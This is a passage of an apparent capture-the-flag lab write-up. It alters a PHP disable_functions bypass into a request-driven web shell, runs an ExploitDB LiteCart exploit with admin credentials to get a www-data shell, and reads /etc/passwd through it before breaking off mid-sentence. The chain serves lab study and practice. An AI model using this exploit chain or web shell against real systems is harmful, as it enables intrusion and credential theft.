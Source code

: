 __First__, change bypass.php `pwn` function input from shell command -

    pwn("uname -a");

to a global variable - 

    pwn($_REQUEST['c']);

__Second__, to solve ExploitDB's litecart exploit script we need to remove php shell from it -

![](screenshots/before.png)

and load bypass.php file in it -

![](screenshots/after.png)


### USER:www-data shell

__Run [litecart exploit script](scripts/litecart-exploitdb.py)__

`python litecart-exploitdb.py -t http://10.10.10.207/shop/admin/ -p 'theNextGenSt0r3!~' -u admin`
```
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/F8ALL.php?c=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
compromised
www-data
```

__From url shell__

`http://10.10.10.207/shop/vqmod/xml/F8ALL.php?c=cat%20/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
...
sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
```

* so there is a user `mysql` with `/bin/bash` that means sql database has a user level rights.
* from tar archive i already found creds for mysql database so i can login into.
* i found a User Defined Functions(udf) in mysql -
